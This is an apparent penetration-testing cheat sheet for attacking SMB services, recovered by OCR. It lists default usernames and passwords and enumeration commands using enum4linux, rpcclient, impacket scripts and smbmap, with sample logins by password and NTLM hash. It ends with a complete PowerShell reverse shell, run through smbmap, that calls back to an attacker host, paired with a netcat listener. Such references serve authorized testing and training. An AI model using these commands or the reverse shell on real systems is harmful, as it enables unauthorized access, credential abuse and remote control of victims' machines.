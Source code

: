 Connection Tools

Linux:

| 1 2 3 4 5 6  | smbclient smbget /usr/share/doc/python-impacket/examples/ python scripts smbexec.py and psexec.py  wmiexec.py smb4k  |
|--------------|----------------------------------------------------------------------------------------------------------------------|

Windows:

| 1  | net use  |
|----|----------|

Possible Credentials

| **Usernames**        | **Common Passwords**                    |
|----------------------|-----------------------------------------|
| (blank)              | (blank)                                 |
| guest                | (blank)                                 |
| Administrator, admin | (blank), password, administrator, admin |
| arcserve             | arcserve, backup                        |
| tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
| backupexec, backup   | backupexec, backup, arcada              |
| test, lab, demo      | password, test, lab, demo               |

Obtain Information

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59  | \#Dump interesting information enum4linux -a -u "0xhav0c" -p "Password123!" 10.10.x.x nmap --script "safe or smb-enum-\*" -p 445 10.10.x.x  \#Connect to the rpc rpcclient -U "" -N 10.10.x.x \#No creds rpcclient //192.168.x.x -U secybr.local/0xhav0c%754d87d42adabcca32bdb34a876cbffb --pw-nt-hash \#You can use querydispinfo and enumdomusers to query user information  \#Dump user information /usr/share/doc/python3-impacket/examples/samrdump.py -port 445 secybr.local/0xhav0c:'Password123!'@192.168.x.x /usr/share/doc/python3-impacket/examples/samrdump.py -port 139 secybr.local/0xhav0c:'Password123!'@192.168.x.x  \#Map possible RPC endpoints /usr/share/doc/python3-impacket/examples/rpcdump.py -port 135 secybr.local/0xhav0c:'Password123!'@192.168.x.x /usr/share/doc/python3-impacket/examples/rpcdump.py -port 139 secybr.local/0xhav0c:'Password123!'@192.168.x.x /usr/share/doc/python3-impacket/examples/rpcdump.py -port 445 secybr.local/0xhav0c:'Password123!'@192.168.x.x  nmblookup -A 10.10.x.x \# Get NetBIOS from IP enum4linux -a -R 500-600,950-1150 10.10.x.x \# Enumeration using enum4linux (identifier le nom/domaine + users + shares)   \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# List shares \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# smbclient -L //10.10.x.x smbclient -L 10.10.x.x  \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# Connect \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# smbclient \\\\\\\\192.168.x.x\\\\share  smbclient -U "secybr.local\\0xhav0c" \\\\\\\\10.10.x.x\\\\IPC\$ password \# Connect smbclient -U "" -N \\\\\\\\10.10.x.x\\\\IPC\$ \# Specify username and no pass  \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# Nullinux for users and shares \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# \#Installation git clone https://github.com/m8r0wn/nullinux cd nullinux sudo bash setup.sh \# Usage python3 nullinux.py -users -quick secybr.local python3 nullinux.py 192.168.x.x/24 python3 nullinux.py -u 'secybr.local\\0xhav0c' -p 'Password123!' 10.10.x.x  \# Other Enumeration Commands smbmap -u 0xhav0c -p Password123! -d secybr.local -H 192.168.x.x \# Smbmap for domains (List share drives, drive permissions, share contents, upload/download functionality..) \| Basic enumeration (password or NTLM hash) smbmap -u '0xhav0c' -p 'Password123!' -d secybr.com -H 10.10.x.x -x 'net group "Domain Admins" /domain' \# Remote command execution smbmap -H 10.10.x.x -u 0xhav0c -p 'Password123!' -r 'C\$\\Users' \# Non-recursive path listing smbmap --host-file AD-HOSTS.txt -u 0xhav0c -p 'Password123!' -d secybr.com -F 'password'\# File content searching !!! It's not working stabil.  smbmap -H 192.168.x.x -u 0xhav0c -p 'Password123!' -d secybr.com -L \# Drive listing  \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# \# Nifty Shell \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\# python smbmap.py -u 0xhav0c -p 'Password123!' -d secybr.local -H 192.168.x.x -x 'powershell -command "function ReverseShellClean {if (\$c.Connected -eq \$true) {\$c.Close()}; if (\$p.ExitCode -ne \$null) {\$p.Close()}; exit; };\$a=""""192.168.y.y""""; \$port=""""1337"""";\$c=New-Object system.net.sockets.tcpclient;\$c.connect(\$a,\$port) ;\$s=\$c.GetStream();\$nb=New-Object System.Byte[] \$c.ReceiveBufferSize ;\$p=New-Object System.Diagnostics.Process ;\$p.StartInfo.FileName=""""cmd.exe"""" ;\$p.StartInfo.RedirectStandardInput=1 ;\$p.StartInfo.RedirectStandardOutput=1;\$p.StartInfo.UseShellExecute=0 ;\$p.Start() ;\$is=\$p.StandardInput ;\$os=\$p.StandardOutput ;Start-Sleep 1 ;\$e=new-object System.Text.AsciiEncoding ;while(\$os.Peek() -ne -1){\$out += \$e.GetString(\$os.Read())} \$s.Write(\$e.GetBytes(\$out),0,\$out.Length) ;\$out=\$null;\$done=\$false;while (-not \$done) {if (\$c.Connected -ne \$true) {cleanup} \$pos=0;\$i=1; while ((\$i -gt 0) -and (\$pos -lt \$nb.Length)) { \$read=\$s.Read(\$nb,\$pos,\$nb.Length - \$pos); \$pos+=\$read;if (\$pos -and (\$nb[0..\$(\$pos-1)] -contains 10)) {break}} if (\$pos -gt 0){ \$string=\$e.GetString(\$nb,0,\$pos); \$is.write(\$string); start-sleep 1; if (\$p.ExitCode -ne \$null) {ReverseShellClean} else { \$out=\$e.GetString(\$os.Read());while(\$os.Peek() -ne -1){ \$out += \$e.GetString(\$os.Read());if (\$out -eq \$string) {\$out="""" """"}} \$s.Write(\$e.GetBytes(\$out),0,\$out.length); \$out=\$null; \$string=\$null}} else {ReverseShellClean}};"'   nc -l 4445 \# Listener for atacker Machine  |